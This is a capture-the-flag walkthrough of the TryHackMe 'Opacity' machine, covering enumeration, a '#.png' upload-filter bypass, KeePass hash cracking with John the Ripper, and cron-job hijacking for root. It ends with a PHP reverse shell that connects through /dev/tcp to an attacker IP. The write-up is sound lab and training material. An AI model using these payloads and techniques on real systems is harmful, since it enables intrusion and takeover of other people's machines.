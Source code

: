 # **Opacity** | Tryhackme


![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/25a7f534-437c-4954-b925-0553935ee68b)


***

Running our nmap scan for port discovery and service detection we have-:




| Ports | Service     | Versions            |
| ----- | ----------- | ------------------- |
| 22    | SSH         | OpenSSH 8.2p1       |
| 80    | HTTP        | Apache httpd 2.4.41 |
| 139   | netbios-ssn | Samba smbd 4.6.2    |
| 445   | netbios-ssn | Samba smbd 4.6.2    |


Navigating to port 80/HTTP we have a login page, trying out several default credentials doesn't seem to work, we don't have anything juicy in page-source also :( -:


![](https://i.imgur.com/jS53K7G.png)



However performing directory bruteforcing with `dirsearch` we found few directories in which `/cloud` stands out 😁



![](https://i.imgur.com/B5XCiIh.png)



Navigating to `/cloud` we have a page with an upload function however we can't upload files locally, so we have to directly download the files by hosting it on a specific web server and pasting the URL into the blank bar given




![](https://i.imgur.com/9HdwatE.png)


I noticed you can't download files other than `.png` even if they do not exist, the file extension must literally end with a `.png` extension.



![](https://i.imgur.com/Iif2P3x.png)


We can bypass this file upload function by putting a `#` sign after our major payload file extension just as shown in the below URL. Note that you have to host your reverse shell in `PHP` format and have your listener already started up.


[http://10.11.69.221/wtf.php#.png](http://10.11.69.221/wtf.php#.png)



![](https://i.imgur.com/su4Vsmm.png)


Then we have our shell back as user `www-data`, note that this vulnerability is known as an **Remote File Upload**{RFU} vulnerability, Navigating to the `/opt` directory we have a `dataset.kdbx` file.




![](https://i.imgur.com/TZ6W2uQ.png)



We can go ahead and decrypt this file using jtR


```bash
keepass2john dataset.kdbx > hash.txt
john hash.txt --wordlist=<PATH TO WORDLIST>
```



![](https://i.imgur.com/aWIl0Nq.png)

Opening the encrypted file with the **keepass2** password manager with the new password gotten, we have another user's called `sysadmin` password


![](https://i.imgur.com/EtETWH0.png)

We can use this to login via SSH, Enumerating cron jobs with `pspy32s` we can see that the root user is running the `/home/sysadmin/scripts/script.php` script every minute


![](https://i.imgur.com/RRiOleS.png)

However reading this script we can see that a `backup.iinc.php` file is been called to backup everything in the `scripts` folder to `/var/backups/backup.zip` 


![](https://i.imgur.com/d9QMsHV.png)


Since this is this user's home folder we can move this file to the `/tmp` directory and create another file with that same name and paste our payload in there, Probably your reverse shell :(

![](https://i.imgur.com/DqP048F.png)

Then we have our reverse shell as user `root`


```PHP
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.11.69.221/1337 0>&1'");
?>
```


![](https://i.imgur.com/7hcHGRz.png)




